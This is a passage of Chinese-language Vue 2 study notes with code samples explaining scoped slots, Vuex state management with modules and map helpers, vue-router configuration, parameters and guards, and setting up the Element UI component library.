         		</Category>
         
         		<Category> 
                     <!-- 可以通过解构赋值，slot-scope(新api) scope(旧api) -->
         			<template slot-scope="{games}">
         				<!-- 生成的是h4标题 -->
         				<h4 v-for="g in scopeData.games" :key="g">{{g}}</h4>
         			</template>
         		</Category>
         子组件中：
                 <template>
                     <div>
                         <!-- 把games传给插槽使用者,可以传多个参数，所以是对象 -->
                         <slot :games="games"></slot>
                     </div>
                 </template>
         		
                 <script>
                     export default {
                         name:'Category',
                         props:['title'],
                         //数据在子组件自身
                         data() {
                             return {
                                 games:['红色警戒','穿越火线','劲舞团','超级玛丽']
                             }
                         },
                     }
                 </script>
         ```


#### 2.19 vuex

> * Actions 动作，行为 （Object对象）(store.commit())
>
> 防止业务逻辑很复杂的时候，代码冗余度高
>
> * Mutations 修改，加工 (Object对象)
> * State 状态==>数据 (Object对象)
> * store 管理Actions 、Mutations 、State 
> * Vue Components vue组件【store.dispatch（'动作类型'（'jia'），数据（2））】


#####  2.19.1.概念

​	在Vue中实现【集中式】状态（数据）管理的一个Vue插件，对vue应用中多个组件的共享状态进行集中式的管理（读/写），也是一种组件间通信的方式，且适用于**任意组件间通信**。

##### 2.19.2.何时使用？

1. 多个组件依赖于同一状态(数据)
2. 来自不同组件的行为需要变更同一状态
**总结**：多个组件需要共享数据时

##### 2.19.3.搭建vuex环境

1. `npm i vuex`

> * vue2中用vuex的3版本 `npm i vuex@3`
> * vue3中用vuex的4版本 `npm i vuex@4`

1. `Vue.use(Vuex)`

2. 创建文件：```src/store/index.js```

   ```js
   //引入Vue核心库
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   //应用Vuex插件
   Vue.use(Vuex)

   //准备actions对象——响应组件中用户的动作
   const actions = {}
   //准备mutations对象——修改state中的数据
   const mutations = {}
   //准备state对象——保存具体的数据
   const state = {}

   //创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state
   })
   ```

2. 在```main.js```中创建vm时传入```store```配置项

   ```js
   ......
   //引入store
   import store from './store'
   ......
   
   //创建vm
   new Vue({
   	el:'#app',
   	render: h => h(App),
   	store
   })
   ```

#####    2.19.4.基本使用

1. 初始化数据、配置```actions```、配置```mutations```，操作文件```store.js```

   ```js
   //引入Vue核心库
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   //引用Vuex
   Vue.use(Vuex)

   const actions = {
       //响应组件中加的动作
   	jia(context,value){
   		// console.log('actions中的jia被调用了',miniStore,value)
   		context.commit('JIA',value)
   	},
   }

   const mutations = {
       //执行加
   	JIA(state,value){
   		// console.log('mutations中的JIA被调用了',state,value)
   		state.sum += value
   	}
   }

   //初始化数据
   const state = {
      sum:0
   }

   //创建并暴露store
   export default new Vuex.Store({
   	actions,
   	mutations,
   	state,
   })
   ```

2. 组件中读取vuex中的数据：```$store.state.sum```

3. 组件中修改vuex中的数据：```$store.dispatch('action中的方法名',数据)``` 或 ```$store.commit('mutations中的方法名',数据)```

   >  备注：若没有网络请求或其他业务逻辑，组件中也可以越过actions，即不写```dispatch```，直接编写```commit```

##### 2.19.5.getters的使用

1. 概念：当state中的数据需要经过加工后再使用时，可以使用getters加工。

2. 在```store.js```中追加```getters```配置

   ```js
   ......
// 准备getters --用于将state中的数据进行加工(相当于可共享的计算属性)
   const getters = {
   	bigSum(state){
   		return state.sum * 10
   	}
   }

   //创建并暴露store
   export default new Vuex.Store({
   	......
   	getters
   })
   ```

3. 组件中读取数据：```$store.getters.bigSum```

##### 2.19.6.四个map方法的使用

1. 【**mapState方法：**】用于帮助我们映射```state```中的数据为计算属性

   ```js
   computed: {
       //借助mapState生成计算属性：sum、school、subject（对象写法）
        ...mapState({sum:'sum',school:'school',subject:'subject'}),
            
       //借助mapState生成计算属性：sum、school、subject（数组写法）
        /* sum两个用途:
           1.用于计算属性，
           2.再state里面去找sum
         */
       ...mapState(['sum','school','subject']),
   },
   ```

2. 【**mapGetters方法：**】用于帮助我们映射```getters```中的数据为计算属性

   ```js
   computed: {
       //借助mapGetters生成计算属性：bigSum（对象写法）
       ...mapGetters({bigSum:'bigSum'}),

       //借助mapGetters生成计算属性：bigSum（数组写法）
       ...mapGetters(['bigSum'])
   },
   ```

3. 【**mapActions方法：**】用于帮助我们生成与```actions```对话的方法，即：包含```$store.dispatch(xxx)```的函数

   ```js
   methods:{
       //靠mapActions生成：incrementOdd、incrementWait（对象形式）
       ...mapActions({incrementOdd:'jiaOdd',incrementWait:'jiaWait'})

       //靠mapActions生成：incrementOdd、incrementWait（数组形式）
       ...mapActions(['jiaOdd','jiaWait'])
   }
   ```

4. 【**mapMutations方法：**】用于帮助我们生成与```mutations```对话的方法，即：包含```$store.commit(xxx)```的函数

   ```js
   methods:{
       //靠mapActions生成：increment、decrement（对象形式）
       ...mapMutations({increment:'JIA',decrement:'JIAN'}),
       
       //靠mapMutations生成：JIA、JIAN（对象形式）
       ...mapMutations(['JIA','JIAN']),
   }
   ```

> 备注：mapActions与mapMutations使用时，若需要传递参数需要：在模板中绑定事件时传递好参数，否则参数是【**事件对象**】。

##### 2.19.7 多组件实现共享数据

* **store.js**

```js
// 该文件用于创建Vuex中最为核心的store
// 引入Vue
import Vue from 'vue'
// 使用插件
Vue.use(Vuex) //vm里面多了store配置项,不使用就没有store配置项
// 引入Vuex
import Vuex from 'vuex'
// 准备actions --用于响应组件里面的动作
const actions = {
  //jia:function(){} 键值对简写 jia(){}
  //   context:上下文,可能使用的方法都放在这个对象里面
  /* jia(context, value) {
    context.commit('JIA', value)
  },
  jian(context, value) {
    context.commit('JIAN', value)
  }, */
  jiaOdd(context, value) {
    console.log('处理了一些事情--jiaOdd')
    context.dispatch('demo2', value)
  },
  demo2(context, value) {
    // dispatch用法
    console.log('处理了一些事情--demo2')
    if (context.state.sum % 2) {
      context.commit('JIA', value)
    }
  },
  jiaWait(context, value) {
    setTimeout(() => {
      context.commit('JIA', value)
    }, 1000)
  },
}

// mutations --用于操作数据(state)
const mutations = {
  JIA(state, value) {
    // state是下面定义的，有getter和setter(响应式)
    // console.log('mutation', state, value)
    state.sum += value
  },
  JIAN(state, value) {
    state.sum -= value
  },
  ADD_PERSON(state, value) {
    // 在前添加
    state.personList.unshift(value)
  },
}

// 准备state --用于存储数据
const state = {
  sum: 0, //当前的和
  school: '尚硅谷',
  subject: '前端',
  personList: [
    {
      id: '001',
      name: '张三',
    },
  ],
}

// 准备getters --用于将state中的数据进行加工(相当于可共享的计算属性)
const getters = {
  bigSum(state) {
    return state.sum * 10
  },
}

// 创建并导出(暴露)store
export default new Vuex.Store({
  actions,
  mutations,
  state,
  getters,
})
```

* **person.vue**

```html
<template>
  <div>
    <h1>人员列表</h1>
    <h3>Count组件求和为:{{ sum }}</h3>
    <input type="text" placeholder="请输入名字" v-model="name" />
    <button @click="add">添加</button>
    <ul>
      <li v-for="p in personList" :key="p.id">{{ p.name }}</li>
      <li></li>
    </ul>
  </div>
</template>

<script>
  import { nanoid } from 'nanoid'
  export default {
    name: 'Person',
    data() {
      return {
        name: '',
      }
    },
    computed: {
      personList() {
        return this.$store.state.personList
      },
      sum() {
        return this.$store.state.sum
      },
      //   ...mapState(['personList']),
    },
    methods: {
      add() {
        const personObj = { id: nanoid(), name: this.name }
        console.log(personObj)
        this.$store.commit('ADD_PERSON', personObj)
        // 清空输入框
        this.name = ''
      },
    },
  }
</script>
```

* **count.vue**

```html
<template>
  <div>
    <h1>当前求和为：{{ sum }}</h1>
    <h3>当前求和放大10倍为：{{ bigSum }}</h3>
    <h3>我在{{ school }},学习{{ subject }}</h3>
    <h3>Person组件的总人数为{{ personList.length }}</h3>
    <select v-model.number="num">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
    </select>
    <!--increment括号后面不写数据是event  -->
    <!-- 对象写法 -->
    <button @click="increment(num)">+</button>
    <button @click="decrement(num)">-</button>

    <!-- 对象写法 -->
    <button @click="incrementOdd(num)">当前求和为奇数再加</button>
    <button @click="incrementWait(num)">等一等再加</button>
  </div>
</template>

<script>
  import { mapState, mapGetters, mapMutations, mapActions } from 'vuex'
  export default {
    name: 'count',
    data() {
      return {
        num: 1, //用户选择的数字
      }
    },
    computed: {
      // 借助mapState生成计算属性，从state中读取数据(数组写法)
      ...mapState(['sum', 'school', 'subject', 'personList']),

      // 借助mapGetters生成计算属性，从state中读取数据(数组写法)
      ...mapGetters(['bigSum']),
    },
    methods: {
      // 借助mapMutations生成对应的方法，方法中会调用commit去联系mutation(对象写法)
      ...mapMutations({ increment: 'JIA', decrement: 'JIAN' }),

      // 借助mapActions生成对应的方法，方法中会调用dispatch去联系mutation(对象写法),
      // 对象写法
      ...mapActions({ incrementOdd: 'jiaOdd', incrementWait: 'jiaWait' }),
    },
    mounted() {
      // {he:'sum'} ,he不加'' 是因为简写，右边的不能简写
      // const x = mapState({ he: 'sum', xuexiao: 'school', xueke: 'subject' })
      // console.log(x)
    },
  }
</script>

<style>
  button {
    margin-left: 5px;
  }
</style>
```


##### 2.19.8.模块化+命名空间

1. 目的：让代码更好维护，让多种数据分类更加明确。

2. 修改```store.js```

   ```javascript
   const countAbout = {
     namespaced:true,//开启命名空间
     state:{x:1},
     mutations: { ... },
     actions: { ... },
     getters: {
       bigSum(state){
          return state.sum * 10
       }
     }
   }

   const personAbout = {
     namespaced:true,//开启命名空间
     state:{ ... },
     mutations: { ... },
     actions: { ... }
   }

   const store = new Vuex.Store({
     modules: {
       countAbout,
       personAbout
     }
   })
   ```

3. 开启命名空间后，组件中读取state数据：

   ```js
   //方式一：自己直接读取
   this.$store.state.personAbout.list
   //方式二：借助mapState读取：
   ...mapState('countAbout',['sum','school','subject']),
   ```

4. 开启命名空间后，组件中读取getters数据：

   ```js
   //方式一：自己直接读取
   this.$store.getters['personAbout/firstPersonName']
   //方式二：借助mapGetters读取：
   ...mapGetters('countAbout',['bigSum'])
   ```

5. 开启命名空间后，组件中调用dispatch

   ```js
   //方式一：自己直接dispatch
   this.$store.dispatch('personAbout/addPersonWang',person)
   //方式二：借助mapActions：
   ...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
   ```

6. 开启命名空间后，组件中调用commit

   ```js
   //方式一：自己直接commit
   this.$store.commit('personAbout/ADD_PERSON',person)
   //方式二：借助mapMutations：
   ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
   ```


#### 2.20 路由

1. 理解： 一个路由（route）就是**一组映射关系**（key - value），多个路由需要路由器（router）进行管理。
2. 后端路由：key是**路径**，value是**函数**
3. 前端路由：key是**路径**，value是**组件**。
4. 对单页面应用的理解

   1. 单页 Web 应用（single page web application，SPA）。
   2. 整个应用只有**一个完整的页面**。
   3. 点击页面中的导航链接**不会刷新**页面，只会做页面的**局部更新**。
   4. 数据需要通过 ajax 请求获取

##### 2.20.1.基本使用

1. 安装vue-router(vue插件库)，命令：```npm i vue-router```

> * vue-router4在vue3中使用 npm i vue-router@4
>
> * vue-router3在vue2中使用

1. 应用插件：```Vue.use(VueRouter)```

2. 编写router配置项:

   ```js
   //引入VueRouter
   import VueRouter from 'vue-router'
   //引入Luyou 组件
   import About from '../components/About'
   import Home from '../components/Home'
   
   //创建router实例对象，去管理一组一组的路由规则
   const router = new VueRouter({
   	routes:[
   		{
   			path:'/about',
   			component:About
   		},
   		{
   			path:'/home',
   			component:Home
   		}
   	]
   })
   
   //暴露router
   export default router
   ```

3. 实现切换（active-class可配置**高亮样式**）

   ```vue
   <!-- 借助vue-router把router-link 转成a标签,实现路由的切换,active-class展示处于该页面的样式 -->
   <router-link active-class="active" to="/about">About</router-link>
   ```

4. 指定展示位置

   ```vue
   <router-view></router-view>
   ```

##### 2.20.2.几个注意点

1. **路由组件**通常存放在```pages```文件夹，**一般组件**通常存放在```components```文件夹。
2. 通过切换，“隐藏”了的路由组件，默认是被**销毁**掉的，需要的时候再去挂载。
3. 每个组件都有自己的```$route```属性，里面存储着自己的路由信息（**信息不一样**）。
4. 整个应用只有一个router，可以通过组件的```$router```属性获取到。

##### 2.20.3.嵌套路由（多级路由）

1. 配置路由规则，使用children配置项：

   ```js
   routes:[
   	{
   		path:'/about',
   		component:About,
   	},
   	{
   		path:'/home',
   		component:Home,
   		children:[ //通过children配置子级路由
   			{
   				path:'news', //此处一定不要写：/news
   				component:News
   			},
   			{
   				path:'message',//此处一定不要写：/message
   				component:Message
   			}
   		]
   	}
   ]
   ```

2. 跳转（要写**完整路径**）：

   ```vue
   <router-link to="/home/news">News</router-link>
   ```

##### 2.20.4.路由的query参数

1. 传递参数

   ```vue
   <!-- 跳转并携带query参数，to的字符串写法 -->
   <router-link :to="/home/message/detail?id=666&title=你好">跳转</router-link>
   				
   <!-- 跳转并携带query参数，to的对象写法(推荐) -->
   <router-link 
   	:to="{
   		path:'/home/message/detail',
   		query:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

2. 接收参数：

   ```js
   $route.query.id
   $route.query.title
   ```

##### 2.20.5.命名路由

1. 作用：可以**简化路由的跳转**。

2. 如何使用

   1. 给路由命名：

      ```js
      {
      	path:'/demo',
      	component:Demo,
      	children:[
      		{
      			path:'test',
      			component:Test,
      			children:[
      				{
                            name:'hello' //给路由命名
      					path:'welcome',
      					component:Hello,
      				}
      			]
      		}
      	]
      }
      ```

   2. 简化跳转：

      ```vue
      <!--简化前，需要写完整的路径 -->
      <router-link to="/demo/test/welcome">跳转</router-link>
      
      <!--简化后，直接通过名字跳转(to后面必须是对象形式，前面加：【建议多级路由使用】) -->
      <router-link :to="{name:'hello'}">跳转</router-link>
      
      <!--简化写法配合传递参数 -->
      <router-link 
      	:to="{
      		name:'hello',
      		query:{
      		   id:666,
                  title:'你好'
      		}
      	}"
      >跳转</router-link>
      ```

##### 2.20.6.路由的params参数

1. 配置路由，**声明接收**params参数（占位符）

   ```js
   {
   	path:'/home',
   	component:Home,
   	children:[
   		{
   			path:'news',
   			component:News
   		},
   		{
   			component:Message,
   			children:[
   				{
   					name:'xiangqing',
   					path:'detail/:id/:title', //使用占位符声明接收params参数
   					component:Detail
   				}
   			]
   		}
   	]
   }
   ```

2. 传递参数

   ```vue
   <!-- 跳转并携带params参数，to的字符串写法 -->
   <router-link :to="/home/message/detail/666/你好">跳转</router-link>
   				
   <!-- 跳转并携带params参数，to的对象写法 -->
   <router-link 
   	:to="{
   		name:'xiangqing',
   		params:{
   		   id:666,
               title:'你好'
   		}
   	}"
   >跳转</router-link>
   ```

   > 特别注意：路由携带params参数时，若使用to的对象写法，则**不能**使用`path`配置项，**必须**使用`name`配置！

3. 接收参数：

   ```js
   $route.params.id
   $route.params.title
   ```

##### 2.20.7.路由的props配置

​	作用：让**路由组件**更方便的收到参数

> 接收时用props，和组件的props接收方法一样

```js
{
	name:'xiangqing',
	path:'detail/:id',
	component:Detail,

	//第一种写法：props值为对象，该对象中所有的key-value的组合最终都会通过props传给Detail组件(用的少，传递的是死数据)
	// props:{a:900}

	//第二种写法：props值为布尔值，布尔值为true，则把路由收到的所有params参数通过props传给Detail组件(只能传params参数)
	// props:true
	
	//第三种写法：props值为函数，该函数返回的对象中每一组key-value都会通过props传给Detail组件
        
   // (1)完整写法
    /* props($route){
     return {
       id:$route.query.id,
       title:$route.query.title
      }
     }, */
   // (2)解构赋值写法
     props({ query: { id, title } }) {
      return {
       id: id,  //再简写为 id,title
       title: title,
       }
      },
}
```

##### 2.20.8.```<router-link>```的replace属性

1. 作用：控制路由跳转时操作浏览器历史记录的模式
2. 浏览器的历史记录有两种写入方式：分别为```push```和```replace```，```push```是**追加**历史记录（可以返回到之前的网站），```replace```是**替换当前记录**（不可以返回到之前的网站）。路由跳转时候默认为```push```
3. 如何开启```replace```模式：```<router-link replace .......>News</router-link>```

> * 完整写法： `：replace=’true‘`
>
> * 简写：`replace`

##### 2.20.9.编程式路由导航

1. 作用：不借助```<router-link> ```实现路由跳转，让路由跳转更加灵活

2. 具体编码：

   ```js
   //$router的两个API
   this.$router.push({
       //追加历史记录
   	name:'xiangqing',
   		params:{
   			id:xxx,
   			title:xxx
   		}
   })
   
   this.$router.replace({
       //替换历史记录
   	name:'xiangqing',
   		params:{
   			id:xxx,
   			title:xxx
   		}
   })
   this.$router.forward() //前进
   this.$router.back() //后退
   this.$router.go() //可前进也可后退
   ```

##### 2.20.10.缓存路由组件

1. 作用：让不展示的路由组件保持挂载，不被销毁。

2. 具体编码：

   ```vue
    <!-- 不写include那么下面组件全部缓存(没必要),include="组件名" -->
    <!-- 只有一个想缓存的情况 -->
   <keep-alive include="News"> 
       <router-view></router-view>
   </keep-alive>
    <!-- 有8个组件，只想缓存一部分 -->
   <keep-alive :include="['News', 'Message']">
       <router-view></router-view>
   </keep-alive>
   ```

##### 2.20.11.两个新的生命周期钩子

1. 作用：路由组件所独有的两个钩子，用于捕获路由组件的激活状态。
2. 具体名字：
   1. ```activated```路由组件被激活时触发。
   2. ```deactivated```路由组件失活时触发。

##### 2.20.12.路由守卫

1. 作用：对路由进行**权限控制**

2. 分类：全局守卫、独享守卫、组件内守卫

3. 全局守卫:

   ```js
   //全局前置守卫：初始化时执行、每次路由切换前执行
   // to是要去的路由组件，from来自的路由组件,next()是放行，是对象
   router.beforeEach((to,from,next)=>{
   	console.log('beforeEach',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制；
        // meta不需要的路由不写(不写为undefined为假)
   		if(localStorage.getItem('school') === 'atguigu'){ //权限控制的具体规则
   			next() //放行
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next() //放行
   	}
   })
   
   //全局后置守卫：初始化时执行、每次路由切换后执行,没有next()
   router.afterEach((to,from)=>{
   	console.log('afterEach',to,from)
   	if(to.meta.title){ 
   		document.title = to.meta.title //修改网页的title
   	}else{
   		document.title = 'vue_test'
   	}
   })
   ```

4. 独享守卫:

   ```js
   beforeEnter(to,from,next){
   	console.log('beforeEnter',to,from)
   	if(to.meta.isAuth){ //判断当前路由是否需要进行权限控制
   		if(localStorage.getItem('school') === 'atguigu'){
   			next()
   		}else{
   			alert('暂无权限查看')
   			// next({name:'guanyu'})
   		}
   	}else{
   		next()
   	}
   }
   ```

5. 组件内守卫：（如果组件里面想单独写一点逻辑，可以用）

   > 通过路由规则，直接写组件标签不可以触发组件内守卫

   ```js
   //进入守卫：通过路由规则，进入该组件时被调用
   beforeRouteEnter (to, from, next) {
   },
   //离开守卫：通过路由规则，离开该组件时被调用
   beforeRouteLeave (to, from, next) {
   }
   ```

##### 2.20.13.路由器的两种工作模式

1. 对于一个url来说，什么是hash值？—— **#及其后面的内容**就是`hash`值。

2. `hash`值不会包含在 `HTTP 请求`中，即：hash值**不会带给服务器**。

3. **hash模式**： 

   > 地址栏：/#/

   1. 地址中永远带着#号，不美观 。
   2. 若以后将地址通过第三方手机app分享，若app校验严格，则地址**会被标记为不合法**。
   3. 兼容性**较好**。

4. **history模式**：

   > 地址栏：/

   1. 地址干净，美观 。
   2. 兼容性和hash模式相比**略差**。
   3. 应用部署上线时需要**后端人员**支持，解决刷新页面服务端404的问题。

> * 项目写完后打包（npm run build）,会生成一个dist文件夹，必须放在服务器上运行
> * 前端写的静态资源（html、css、js）放在服务器的static/public文件夹里面
> * history模式404问题解决方法之一：
>
> []: https://www.npmjs.com/package/connect-history-api-fallback
>
> 1. npm i connect-history-api-fallback (服务器里面的中间件【nodejs】)
>
> 2. ```js
>    ...
>    const history = require('connect-history-api-fallback');
>    ...
>    app.use(history())
>    app.use(express.static(__dirname+'/static'))
>    ...
>    ```


#### 2.21 Vue UI组件库

> 不是定制网站的可以用
>
> UI组件库必须知道两件事：
>
> 1.看是根据什么框架开发的（Vue、React、angular）
>
> 2.是移动端还是pc端的

##### 2.21.1 移动端常用 UI 组件库

1. Vant https://youzan.github.io/vant

2. Cube UI https://didi.github.io/cube-ui

3. Mint UI http://mint-ui.github.io

##### 2.21.2 PC 端常用 UI 组件库

1. Element UI https://element.eleme.cn

2. IView UI https://www.iviewui.com

* ElementUI全部引入（体积很大）

> ElementUI会让所有的组件全局可用

```js
// 引入Vue
import Vue from 'vue'
// 引入App
import App from './App'
//引入ElementUI组件库
import ElementUI from 'element-ui'
// 引入ElementUI全部样式
import 'element-ui/lib/theme-chalk/index.css'
// 关闭Vue的生产提示
Vue.config.productionTip = false
// 使用插件
Vue.use(ElementUI)

// 创建vue实例
new Vue({
  el: '#app',
  render: (h) => h(App),
})
```

* 按需引入

> `npm install babel-plugin-component -D` 开发依赖
>
> **遇到的问题：**
>
> * are not allowed to export object  可能脚手架更新了的原因
> * not found ‘abc’  => npm i abc

* **babel.config.js**

```js
module.exports = {
  presets: [
    '@vue/cli-plugin-babel/preset',
      //下面是引入的
    ['@babel/preset-env', { modules: false }], 	//presets:预设包
  ],
  plugins: [
    [
      'component',
      {
        libraryName: 'element-ui',
        styleLibraryName: 'theme-chalk',
      },
    ],
  ],
}
```

* **main.js**

```js
// 引入Vue
import Vue from 'vue'
// 引入App
import App from './App'
//引入ElementUI组件库

// 完整引入
// import ElementUI from 'element-ui'
// 引入ElementUI全部样式
// import 'element-ui/lib/theme-chalk/index.css'

// 按需引入
import { Button, Row, DatePicker } from 'element-ui'
Vue.component('atguigu-button', Button)
Vue.component('atguigu-row', Row)
Vue.component('atguigu-data-picker', DatePicker)

// 关闭Vue的生产提示
Vue.config.productionTip = false

// 使用ElementUI
// Vue.use(ElementUI)

// 创建vue实例
new Vue({
  el: '#app',
  render: (h) => h(App),
})

```

* **app.vue**

```vue
<template>
  <div>
    <button>原生的按钮</button>
    <input type="text" />
    <atguigu-row>
      <atguigu-button>默认按钮</atguigu-button>
      <atguigu-button type="primary">主要按钮</atguigu-button>
      <atguigu-button type="success">成功按钮</atguigu-button>
      <atguigu-button type="info">信息按钮</atguigu-button>
      <atguigu-button type="warning">警告按钮</atguigu-button>
      <atguigu-button type="danger">危险按钮</atguigu-button>
    </atguigu-row>
    <atguigu-date-picker v-model="value1" type="date" placeholder="选择日期">
    </atguigu-date-picker>
  </div>
</template>

<script>
  export default {
    name: 'App',
    // 一般组件
    components: {},
    data() {
      return {}
    },
  }
</script>

```


